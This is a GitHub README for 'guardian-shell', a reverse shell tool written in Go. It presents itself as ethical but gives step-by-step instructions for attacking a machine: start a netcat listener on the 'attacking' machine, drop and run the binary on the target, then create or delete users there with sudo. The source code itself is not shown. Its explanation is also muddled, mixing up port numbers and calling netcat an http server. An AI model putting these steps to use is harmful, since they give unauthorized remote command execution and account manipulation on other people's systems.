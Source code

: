 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`
what is the above command ?
    "-l": Tells netcat to operate in listening mode, waiting for incoming connections.
    "-v": Enables verbose mode, providing more detailed output about the connections.
    "-p": Specifies the port to listen on, in this case, port 2009.

So, when you run this command, netcat will listen for incoming connections on port 2009 and display verbose output about the connections.
In other words, with out the need for you to write http server, netcat (available in linux os) will give you the http server listner. 

step 2 : run guardian-shell binary on the machine you want to attack. 
copy from this repo the binary and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listner!` or it will wait for listner.

## sample commands

After deploying this app, you can test it by running the following command to see how dangerous it is.

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```
## to do
file transfer 

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)